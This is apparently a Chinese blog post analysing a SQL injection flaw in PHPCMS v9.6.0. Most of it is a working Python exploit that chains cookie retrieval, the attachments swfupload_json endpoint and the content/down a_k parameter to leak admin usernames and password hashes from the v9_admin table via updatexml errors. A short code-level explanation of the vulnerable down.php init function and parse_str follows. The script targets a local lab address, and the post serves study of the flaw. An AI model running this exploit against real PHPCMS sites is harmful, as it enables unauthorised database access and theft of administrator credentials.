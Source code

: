 ```
?m=content&c=down&a_k=1b27_hA6AVlZyO4qgZ9baSS_PyClX3sQA6HkInEKASUFIejSOnWnsBWk11Ads8-QtyXsrJJEBoQ2wyvLStyLUmSivjIXUzbpkggk02ywnNlTJwriwUszSuJ7RbLWUEXGS3ZtLOmEMQZV1qiSAdsrWbzdaRO7qSaQsp9qh59JY5AByTNWpWvwY9FSl9Gil0t4PHGRMMYrxZ5M
```
![](https://img-blog.csdnimg.cn/20210710212913585.png)
在网上找了一个exp：
```python
import requests
import re
from urllib.parse import quote
 
TIMEOUT = 3
 
def poc(url):
 
    #payload = "&id=%*27 and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23&modelid=1&catid=1&m=1&f="
    payload = "&id=%*27 and updatexml(1,concat(0x7e,(select concat(username,password) from v9_admin limit 0,1),0x7e),1)%23&modelid=1&catid=1&m=1&f="

    cookies = {}
    step1 = '{}/index.php?m=wap&a=index&siteid=1'.format(url)
    for c in requests.get(step1, timeout=TIMEOUT).cookies:
        if c.name[-7:] == '_siteid':
            cookie_head = c.name[:6]
            cookies[cookie_head + '_userid'] = c.value
            cookies[c.name] = c.value
            break
    else:
        return False
 
    step2 = "{}/index.php?m=attachment&c=attachments&a=swfupload_json&src={}".format(url, quote(payload))
    for c in requests.get(step2, cookies=cookies, timeout=TIMEOUT).cookies:
        if c.name[-9:] == '_att_json':
            enc_payload = c.value
            break
    else:
        return False
 
    setp3 = url + '/index.php?m=content&c=down&a_k=' + enc_payload
    r = requests.get(setp3, cookies=cookies, timeout=TIMEOUT)
    result = re.findall(r"</b>XPATH syntax error: '(.*?)' <br />",str(r.text), re.S)[0]
    
    print(result)

poc('http://192.168.111.133/cms/phpcms_v9.6.0')
```
![](https://img-blog.csdnimg.cn/20210710140145440.png)
漏洞在`phpcms/modules/content/down.php`的init函数
![](https://img-blog.csdnimg.cn/img_convert/d57d285f930574e46b59948a8415bea9.png)
可以看到通过GET传参`a_k`参数的值，然后调用`sys_auth`方法，其中auth_key是通过load_config读取system配置，对应的是位于 `caches\configs\system.php`文件中密钥
![](https://img-blog.csdnimg.cn/img_convert/0c223320e0f8b4c881d5948868bf23de.png)
调用parse_str函数去变量解析， parse_str函数至少存在三个问题:
1. 带入未初始化的数据
2. 可以进行url编码
3. 变量覆盖漏洞
